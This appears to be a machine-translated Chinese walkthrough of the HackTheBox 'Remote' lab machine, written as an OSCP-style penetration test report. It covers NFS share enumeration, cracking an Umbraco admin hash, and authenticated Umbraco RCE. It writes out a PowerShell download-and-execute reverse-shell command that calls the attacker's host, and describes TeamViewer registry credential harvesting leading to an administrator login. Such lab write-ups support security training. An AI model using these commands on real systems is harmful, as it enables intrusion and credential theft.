# 远程——OSCP 风格的黑客盒子制作

> 原文：<https://infosecwriteups.com/remote-hackthebox-writeup-oscp-style-1e35ed0f9951?source=collection_archive---------2----------------------->

## Remote 是一台简单难度的 windows 机器，上面有翁布拉科·RCE 和著名的 Teamviewer 的 CVE-2019–18988。一直想发表一篇 OSCP 风格的文章，花了一段时间。



**Offsec 的 PWK 示例报告**:[https://www . offensive-security . com/pwk-online/PWK-Example-Report-v1 . pdf](https://www.offensive-security.com/pwk-online/PWK-Example-Report-v1.pdf)

我在我的 OSCP 考试报告中使用了上面的示例模板，这个演练也将遵循相同的模板。

# 报告-渗透

评估的渗透测试部分重点关注获得对***远程***机器的访问权。在这次渗透测试中，Preetham 能够成功进入***远程***机器。

**被利用的漏洞:** Umbraco CMS —由经过身份验证的管理员远程执行代码

**系统易受攻击:** 10.10.10.180

**漏洞解释:** Umbraco CMS 在 xsltVisualise 功能中存在一个已验证的远程代码执行漏洞。Umbraco CMS 的凭据是通过装载包含 Umbraco.sdf 文件的 NFS 共享找到的，该文件是 SQL Server Compact Edition 文件。

【参考文献:[https://www.exploit-db.com/exploits/46153](https://www.exploit-db.com/exploits/46153)

[](https://github.com/noraj/Umbraco-RCE) [## 诺拉吉/翁布拉科-RCE

### Umbraco CMS 7.12.4 -(已验证)远程代码执行[packet storm][WLB-2020080012]$ python exploit . py-h…

github.com](https://github.com/noraj/Umbraco-RCE) 

**权限提升漏洞:**Teamviewer CVE-2019–18988 从注册表收集凭据。

**参考**:[https://whynotsecurity.com/blog/teamviewer/](https://whynotsecurity.com/blog/teamviewer/)

**漏洞修复**:将 Teamviewer 更新至最新版本

**严重性:**危急

# **信息收集**

## **完整 Nmap 扫描**

```
Nmap scan report for 10.10.10.180
Host is up (0.74s latency).PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  mountd        1-3 (RPC #100005)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

有允许匿名访问的 FTP 和 Web 服务器，RPC，SMB 和 NFS 端口开放。Preetham 找到了 NFS 与`showmount`的共享出口列表，并挂载了`site_backups`共享。



**Umbraco.sdf 文件**



```
root@kali:~/htb/boxes/remote# strings Umbraco.sdf | grep admin                                                                                               Administratoradmindefaulten-US                                                                                                                               
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d                                                                                           
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.local***b8be16afba8c314ad33d812f22a04991b90e2aaa***{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/password/changepassword change
```

Preetham 获得了 SHA1 类型的 admin 账户 hash***(b 8 be 16 afba 8 c 314 ad 33d 812 f 22 a 04991 b 90 e 2 AAA)***。

## 破解哈希



普雷瑟姆以`***baconandcheese***`的身份获得了密码

## 远程代码执行

**参考**:【https://github.com/noraj/Umbraco-RCE】T2



## 反向外壳

Preetham 使用 h[ttps://github . com/samratashok/nishang/blob/master/shell/Invoke-powershelltcp . PS1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)获得了一个反向 shell。

**命令**

```
python3 exploit.py -u ‘admin@htb.local’ -p ‘baconandcheese’ -i ‘[http://10.10.10.180'](http://10.10.10.180') -c powershell.exe -a “IEX(New
-Object System.Net.WebClient).DownloadString(‘[http://10.10.14.42/shell.ps1'](http://10.10.14.42/shell.ps1'))"
```



## User.txt 和 IP 地址



## 权限提升:Teamviewer CVE-2019–18988 从注册中心收集凭据

**参考**:[https://whynotsecurity.com/blog/teamviewer/](https://whynotsecurity.com/blog/teamviewer/)

Preetham 在枚举时发现计算机上安装了 Teamviewer。



Preetham 通过执行以下操作发现 Teamviewer 的版本是 7。



Preetham 通过在机器上执行 msfvenom 创建的恶意二进制文件获得了一个 meterpreter 外壳。



Preetham 运行 Teamviewer MSF 模块，找到管理员的密码并使用 WinRM 登录。



> **命令**:evil-winrm-I 10 . 10 . 10 . 180-u administrator-p '！' R3m0te！'

## Root.txt 和 ipconfig

